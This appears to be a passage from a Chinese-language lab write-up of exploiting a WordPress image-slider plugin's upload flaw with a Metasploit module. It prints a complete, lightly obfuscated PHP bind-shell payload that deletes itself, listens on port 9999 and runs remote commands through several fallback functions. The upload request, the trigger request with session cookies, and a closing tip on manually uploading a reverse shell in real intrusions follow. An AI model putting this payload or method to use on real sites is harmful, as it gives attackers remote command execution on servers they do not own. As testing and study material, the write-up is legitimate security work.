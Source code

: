 ```plain
<?php @unlink(__FILE__); /*<?php /**/  @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);  $BDQbE=@ini_get('disable_functions');  if(!empty($BDQbE)){  $BDQbE=preg_replace('/[, ]+/',',',$BDQbE);  $BDQbE=explode(',',$BDQbE);  $BDQbE=array_map('trim',$BDQbE);  }else{  $BDQbE=array();  }    $port=9999;   $scl='socket_create_listen';  if(is_callable($scl)&&!in_array($scl,$BDQbE)){  $sock=@$scl($port);  }else{  $sock=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);  $ret=@socket_bind($sock,0,$port);  $ret=@socket_listen($sock,5);  }  $msgsock=@socket_accept($sock);  @socket_close($sock);   while(FALSE!==@socket_select($r=array($msgsock), $w=NULL, $e=NULL, NULL))  {  $o = '';  $c=@socket_read($msgsock,2048,PHP_NORMAL_READ);  if(FALSE===$c){break;}  if(substr($c,0,3) == 'cd '){  chdir(substr($c,3,-1));  } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {  break;  }else{    if (FALSE !== stristr(PHP_OS, 'win' )) {  $c=$c." 2>&1\n";  }  $PFeofv='is_callable';  $jikigJe='in_array';    if($PFeofv('shell_exec')&&!$jikigJe('shell_exec',$BDQbE)){  $o=`$c`;  }else  if($PFeofv('exec')&&!$jikigJe('exec',$BDQbE)){  $o=array();  exec($c,$o);  $o=join(chr(10),$o).chr(10);  }else  if($PFeofv('system')&&!$jikigJe('system',$BDQbE)){  ob_start();  system($c);  $o=ob_get_contents();  ob_end_clean();  }else  if($PFeofv('passthru')&&!$jikigJe('passthru',$BDQbE)){  ob_start();  passthru($c);  $o=ob_get_contents();  ob_end_clean();  }else  if($PFeofv('popen')&&!$jikigJe('popen',$BDQbE)){  $fp=popen($c,'r');  $o=NULL;  if(is_resource($fp)){  while(!feof($fp)){  $o.=fread($fp,1024);  }  }  @pclose($fp);  }else  if($PFeofv('proc_open')&&!$jikigJe('proc_open',$BDQbE)){  $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);  $o=NULL;  while(!feof($pipes[1])){  $o.=fread($pipes[1],1024);  }  @proc_close($handle);  }else  {  $o=0;  }    }  @socket_write($msgsock,$o,strlen($o));  }  @socket_close($msgsock);  ?>
-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="imagetitle"

KSXrN
-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="btnsave"

Save Changes
-----------------------------743289811480519521793446209521--
```

接下来模块访问了/wp-content/uploads/wp-responsive-images-thumbnail-slider/0c2a53f9bbc963addd5de93663f4a35d.php

```plain
GET /wp-content/uploads/wp-responsive-images-thumbnail-slider/0c2a53f9bbc963addd5de93663f4a35d.php HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_logged_in_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7C813c527b5d99bb083c2e43068cc63c66c41836fc5d3fc42883b8390f8da744a2;
```

但我们到/wp-content/uploads/wp-responsive-images-thumbnail-slider/发现文件名与模块访问的文件不一致  
导致响应404 msf自然就没有接收到shell  
猜测这是wordpress版本差异 文件的命名方式有所不同导致的问题  
在实际渗透中 可以通过插件漏洞手动上传php\_reverse\_shell.php 然后进行访问反弹shell
